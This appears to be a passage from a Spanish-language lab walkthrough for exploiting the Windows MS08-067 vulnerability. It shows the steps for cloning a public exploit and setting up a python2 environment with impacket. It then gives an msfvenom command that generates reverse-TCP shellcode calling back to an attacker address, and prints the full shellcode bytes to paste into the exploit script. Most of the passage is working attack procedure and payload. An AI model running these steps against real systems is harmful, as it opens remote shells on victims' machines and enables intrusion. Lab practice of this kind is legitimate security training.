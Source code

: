 ```bash
  ❯ git clone https://github.com/andyacer/ms08_067
  ❯ cd ms08_067/
```
  
Creamos un ambiente virtual de python2 para poder ejecutar el script sin presentar errores por librerías sin soporte.
 
```bash
  ❯ virtualenv -p python2 ms08_067
  ❯ source ms08_067/bin/activate
```
  
Ahora que nos encontramos en el ambiente virtual, procedemos a descargar la librería impacket y pycrypto requerida para ejecutar el exploit.
  
```bash
  pip install impacket
  pip install pycrypto
```
  
Al igual que en la anterior explotación, por medio de `msfvenom` generamos una reverse shell, pero en este caso generamos un shellcode el cual vamos a reemplazar directamente en el script de explotación

```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4564 EXITFUNC=thread -b "\x00\x0a\x0d\x5  c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

```bash
  vim ms08_067_2018.py
  
  **Nos ubicamos en la linea 44 y reemplazamos el shellcode
  
   shellcode=(
    "\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
    "\xf3\xf1\xc3\xeb\x83\xee\xfc\xe2\xf4\x0f\x19\x41\xeb\xf3\xf1"
    "\xa3\x62\x16\xc0\x03\x8f\x78\xa1\xf3\x60\xa1\xfd\x48\xb9\xe7"
    "\x7a\xb1\xc3\xfc\x46\x89\xcd\xc2\x0e\x6f\xd7\x92\x8d\xc1\xc7"
    "\xd3\x30\x0c\xe6\xf2\x36\x21\x19\xa1\xa6\x48\xb9\xe3\x7a\x89"
    "\xd7\x78\xbd\xd2\x93\x10\xb9\xc2\x3a\xa2\x7a\x9a\xcb\xf2\x22"
    "\x48\xa2\xeb\x12\xf9\xa2\x78\xc5\x48\xea\x25\xc0\x3c\x47\x32"
    "\x3e\xce\xea\x34\xc9\x23\x9e\x05\xf2\xbe\x13\xc8\x8c\xe7\x9e"
    "\x17\xa9\x48\xb3\xd7\xf0\x10\x8d\x78\xfd\x88\x60\xab\xed\xc2"
    "\x38\x78\xf5\x48\xea\x23\x78\x87\xcf\xd7\xaa\x98\x8a\xaa\xab"
    "\x92\x14\x13\xae\x9c\xb1\x78\xe3\x28\x66\xae\x99\xf0\xd9\xf3"
    "\xf1\xab\x9c\x80\xc3\x9c\xbf\x9b\xbd\xb4\xcd\xf4\x0e\x16\x53"
    "\x63\xf0\xc3\xeb\xda\x35\x97\xbb\x9b\xd8\x43\x80\xf3\x0e\x16"
    "\xbb\xa3\xa1\x93\xab\xa3\xb1\x93\x83\x19\xfe\x1c\x0b\x0c\x24"
    "\x54\x81\xf6\x99\xc9\xe1\xfd\xf6\xab\xe9\xf3\xe0\x17\x62\x15"
    "\x9b\xd3\xbd\xa4\x99\x5a\x4e\x87\x90\x3c\x3e\x76\x31\xb7\xe7"
    "\x0c\xbf\xcb\x9e\x1f\x99\x33\x5e\x51\xa7\x3c\x3e\x9b\x92\xae"
    "\x8f\xf3\x78\x20\xbc\xa4\xa6\xf2\x1d\x99\xe3\x9a\xbd\x11\x0c"
    "\xa5\x2c\xb7\xd5\xff\xea\xf2\x7c\x87\xcf\xe3\x37\xc3\xaf\xa7"
    "\xa1\x95\xbd\xa5\xb7\x95\xa5\xa5\xa7\x90\xbd\x9b\x88\x0f\xd4"
    "\x75\x0e\x16\x62\x13\xbf\x95\xad\x0c\xc1\xab\xe3\x74\xec\xa3"
    "\x14\x26\x4a\x23\xf6\xd9\xfb\xab\x4d\x66\x4c\x5e\x14\x26\xcd"
    "\xc5\x97\xf9\x71\x38\x0b\x86\xf4\x78\xac\xe0\x83\xac\x81\xf3"
    "\xa2\x3c\x3e"
    )  
```                                                                                             
